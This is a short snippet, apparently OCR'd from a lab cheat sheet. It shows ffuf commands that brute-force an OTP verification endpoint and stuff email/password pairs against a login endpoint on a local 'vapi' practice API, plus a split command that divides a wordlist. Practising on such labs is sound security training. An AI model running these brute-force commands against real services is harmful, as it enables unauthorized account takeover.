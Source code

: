# Split into 5 files (modify -l for different number of files)
split -l 2000 -d wordlist.txt wordlist_part

## ffuf
ffuf -w list.txt -X POST -d '{"otp":"FUZZ"}' -H "Content-Type: application/json" -u http://localhost/vapi/api4/otp/verify --mc 200 -s

## ffuf pitchfork
ffuf -w emails.txt:FUZZ1 -w pwds.txt:FUZZ2 -b "{"email":FUZZ1,"password":FUZZ2}" -X POST -H "Content-Type: application/json" -u http://localhost/vapi/api2/user/login -fc 401 -mode pitchfork